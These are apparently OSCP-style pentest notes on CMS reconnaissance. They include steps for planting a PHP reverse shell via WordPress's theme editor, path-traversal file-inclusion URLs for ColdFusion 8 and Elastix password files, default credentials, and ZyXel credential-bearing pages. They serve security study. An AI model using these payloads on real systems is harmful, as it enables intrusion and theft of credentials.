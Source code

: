 ```yaml
---
title: "CMS"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - https
  - http
  - web
  - cms
toc: true
hide_title: true
excerpt: ""
---
```


- Enumerate version and few other details
- Google their vulnerability

## Wordpress

`admin page`
```
/wp-admin
/wp-login
```

`Configuration files`
```
setup-config.php
wp-config.php
```

`Enumerate users`
```
/?author=1, /?author=2,
```

## Uploading shell in WP_THEME

1. Login into WP_dashboard and explore the appearance tab.
2. Now go in **Themes** section under **Appearance** and select **Editor** and there select **twenty fifteen templet** and get into **404.php**
3. You see a text area for editing templet, inject your malicious php code here to obtain reverse connection of the webserver.
4. Update the file and go to following url - /wordpress/wp-content/themes/twentyfifteen/404.php
5.  you will have your session upon execution of 404.php file. :)

## Drupal

`Droopescan`
```
droopescan scan drupal -u http://example.org/ -t 32
```

`Find version`
```
/CHANGELOG.txt
```

## Adobe Cold Fusion

`Determine version`
```
/CFIDE/adminapi/base.cfc?wsdl
```

`Version 8 Vulnerability`
- fckeditor
- LFI
 - `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

## Elastix

- Google the vulnerabitlities
- default login are `admin:admin` at `/vtigercrm/`
- able to upload shell in profile-photo

`2.2.0 - 'graph.php' Local File Inclusion`

`http://server/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

- Note: Most probably this will be same password for root user too , so you can directly ssh through it

## Joomla

- Admin page - `/administrator`
- Configuration files
```
configuration.php
diagnostics.php
joomla.inc.php
config.inc.php
```

## Mambo

`Config files`
```
configuration.php
config.inc.php  
```

## ZyXel

`Configuration files`
```
/WAN.html (contains PPPoE ISP password) 
/WLAN_General.html and /WLAN.html (contains WEP key) 
/rpDyDNS.html (contains DDNS credentials) 
/Firewall_DefPolicy.html (Firewall) 
/CF_Keyword.html (Content Filter) 
/RemMagWWW.html (Remote MGMT) 
/rpSysAdmin.html (System) 
/LAN_IP.html (LAN) 
/NAT_General.html (NAT) 
/ViewLog.html (Logs) 
/rpFWUpload.html (Tools) 
/DiagGeneral.html (Diagnostic) 
/RemMagSNMP.html (SNMP Passwords) 
/LAN_ClientList.html (Current DHCP Leases) 

# Config Backups
/RestoreCfg.html
/BackupCfg.html 
```
